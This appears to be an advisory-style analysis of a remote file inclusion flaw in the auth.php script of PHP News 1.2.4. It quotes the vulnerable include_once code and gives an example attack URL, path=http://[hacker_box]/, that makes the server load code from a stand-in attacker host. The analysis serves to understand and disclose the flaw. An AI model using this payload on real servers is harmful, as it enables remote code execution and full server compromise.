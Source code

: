 Based on the provided content, here's an analysis of the vulnerability:

**Vulnerability Details:**

*   **Root Cause:** The `auth.php` script in PHP News versions 1.2.4 and possibly 1.2.3, contains a flaw that allows for remote file inclusion. The script uses a variable named `$path` which is taken directly from user input via the GET parameter `path` without sanitization. This allows an attacker to manipulate the path used in an `include_once` statement.

*   **Weaknesses/Vulnerabilities Present**:
    *   **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include files from a remote location. Specifically, the vulnerable code is:
    ```php
      else if(file_exists($path . 'languages/' . $lang . '.admin.lng')) {
        include_once($path . 'languages/' . $lang . '.admin.lng');
        ....
      }
    ```
    The `$path` variable is directly derived from user input and allows an attacker to specify a remote URL, leading to remote file inclusion.

*   **Impact of Exploitation:**
    *   **Arbitrary Code Execution:** By including a malicious file from a remote server, an attacker can execute arbitrary code on the victim's server. This can lead to a full compromise of the server, allowing the attacker to steal data, modify the website, or use the server for further attacks.

*   **Attack Vectors:**
    *   **HTTP GET Request:** The vulnerability is exploited through a crafted HTTP GET request to the `auth.php` script. The attacker appends a `path` parameter with a malicious URL, e.g. `http://[victim]/[dir]/auth.php?path=http://[hacker_box]/`
    * The attack requires `register_globals` and `allow_url_fopen` to be enabled

*   **Required Attacker Capabilities/Position:**
    *   **Network Access:** The attacker needs to have network access to the vulnerable server.
    *   **Basic HTTP Knowledge:** The attacker needs to understand how to craft HTTP GET requests.
    *   **Web server with malicious file**: The attacker needs to host a malicious file on a server accessible via HTTP.

**Additional Information:**

*   The vulnerability was discovered by Filip Groszynski (VXSfx).
*   A proof-of-concept exploit was released by mozako.
*   The vulnerability exists in PHP News versions 1.2.4 and possibly 1.2.3.
*   The vendor has been notified and a patch is expected.

The provided content offers more detail than a basic CVE description.